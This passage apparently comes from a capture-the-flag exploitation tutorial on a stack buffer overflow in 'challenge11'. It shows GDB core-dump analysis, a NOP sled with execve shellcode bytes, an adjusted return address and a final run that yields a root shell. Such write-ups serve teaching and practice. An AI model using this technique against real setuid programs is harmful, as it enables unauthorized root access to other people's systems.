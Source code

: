 Ouch, no shell. GDB changes our stack layout slightly. As the program crashed, and
we enabled core files, the core dump `core.173` has been created.

We have the analyze the core file which was generated: `core.173`. 
It contains a copy of the process memory when it crashed.
```sh
~/challenges/challenge11$ gdb -q challenge11 core.173
Reading symbols from challenge11...
[New LWP 173]
Core was generated by `./challenge11 '.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0xffffdbad in ?? ()
(gdb) x/32x $eip
0xffffdbad:     0x78000000      0xf0ffffdc      0x01f7fe88      0x00000000
0xffffdbbd:     0x00000000      0x00f7f800      0x78f7f800      0x6dffffdc
0xffffdbcd:     0x9d080492      0x410804a0      0x00414141      0x8cf7ffd0
0xffffdbdd:     0x00ffffdd      0x00000000      0x60000000      0x90fffffa
0xffffdbed:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffdbfd:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffdc0d:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffdc1d:     0x90909090      0x90909090      0x90909090      0x90909090
```

We can simply look where EIP is pointing, and realize that the actual shellcode
seems to be several dozen bytes behind the current EIP. The `0x90` actually start at
around `0xffffdbed`. Lets jump a bit more in the middle of the shellcode,
lets say at address `0xffffdc0d`:

```
(gdb) x/32x 0xffffdc0d
0xffffdc0d:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffdc1d:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffdc2d:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffdc3d:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffdc4d:     0x90909090      0x90909090      0x6850c031      0x68732f6e
0xffffdc5d:     0x622f2f68      0x31e38969      0xb0d231c9      0x4180cd0b
0xffffdc6d:     0x41414141      0x41414141      0x41414141      0x23414141
0xffffdc7d:     0x00000000      0x12ffffde      0x64ffffdf      0x0dffffdd
```

Therefore, lets adjust the exploit once again:
```
ret_addr = "\x0d\xdc\xff\xff"
```

And try it again, outside GDB:
```
~/challenges/challenge11$ ./challenge11 `python3 ./challenge11-exploit.py` password
isAdmin: 0x41414141
You are admin!
# id
uid=0(root) gid=0(root) groups=0(root)
#
```
